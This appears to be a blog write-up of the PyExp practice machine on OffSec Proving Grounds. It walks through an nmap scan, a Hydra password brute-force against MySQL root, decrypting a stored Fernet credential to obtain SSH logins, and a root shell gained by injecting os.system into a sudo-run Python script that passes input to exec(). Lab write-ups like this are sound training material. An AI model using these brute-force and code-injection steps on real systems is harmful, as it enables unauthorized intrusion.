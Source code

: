 ```yaml
---
layout: post
title:  "PyExp Writeup"
date:   2022-07-16 08:11:30 +0530
---
```


# Walkthrough of Exhost

Hello everyone, in this post I'm sharing `offsec` play grounds `warm-up` machine called `PyExp`. Which teachs about  wordlist attacks, hash cracking and privilege escalation with some  

## Nmap

First thing first that we have to find out opened ports of this target. So, I ran a full port scan against target ip here.

`nmap -sC -sV -p- <target-ip>`


here `-p-` indicates that i'm running a full port scan against this. Also `-sV` for service versions and `-sC` for default script. you can find more information using this command `man nmap`. After few minitues I got my result.

```
Nmap scan report for 192.168.97.118
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 41
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, FoundRows, ODBCClient, ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, InteractiveClient, Support41Auth, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Rp\[43B3vy})Q>!+Q7^U
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

Scan shows that it has only few ports open `ssh` and `mysql`.

## Attack

Now we can do a wordlist attack to extract `root` credentials of mysql service.So, we can use different toolslike `hydra`, `medusa`. Here I'm going to use Hydra to attack the mysql service.


I used `rockyou.txt` to attck. If you haven't the password list `rockyou.txt`. Here is the link to [download](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

After the download you can simply run this command.

`hydra -l root -P /path/to/wordlist/rockyou.txt <target-ip> mysql`

Here `-l` for username, `-P` for mention the wordlist you are going to use.

```
[DATA] attacking mysql://192.168.219.118:3306/
[3306][mysql] host: 192.168.219.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-16 10:34:00
```

After the attack we can ge the credentials `root:prettywoman`. Using these credentials we can connect to mysql host and can do some further enumeration...

Using this command we can connect.

`mysql -u root -h <target-ip> -p`

Give the password `prettywoman` correctly and login to the mysql. 

```
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7860
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

yeaaaaaaaahhhhhhh! We logged in. Now we can see that there are few databases

paste following commands on mysql session.

```
show dtabases;
use data;
show tables;
select * from fernet;
```
`cred:gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`

`key:UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=`



after the last command we can get a fernet encrypted string and the key. So, to decrypt it I wrote very simple `python script`.

```
#!/usr/bin/python3
from cryptography.fernet import Fernet
key = b"UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0="

f = Fernet(key)
cred = b"gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys="
  
# decrypting the ciphertext
m = f.decrypt(cred)
print(m)
```

We got username and password from the decryption.

```
Username:lucy
Password:wJ9`"Lemdv9[FEw-
```

Now we can ssh into the target.

`ssh lucy@<target-ip> -p 1337 `

Here mention the port 1337 because in this host ssh port is 1337.

## Privilege escalation

```
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

`sudo -l` gives us a valuable info here that we can execute a script with root permissions. So, let's see what the script is.


```
uinput = raw_input('how are you?')
exec(uinput)
```
It is executing what I'm write there. So, that is vulnerable to run commands with root privileges.

For an example
```
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?__import__('os').system('id');
uid=0(root) gid=0(root) groups=0(root)
```

## Time to be root

```
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?__import__('os').system('/bin/bash');
root@pyexp:/home/lucy# 
root@pyexp:/home/lucy# 
root@pyexp:/home/lucy# id
```

Enjoy the flags Yourself!
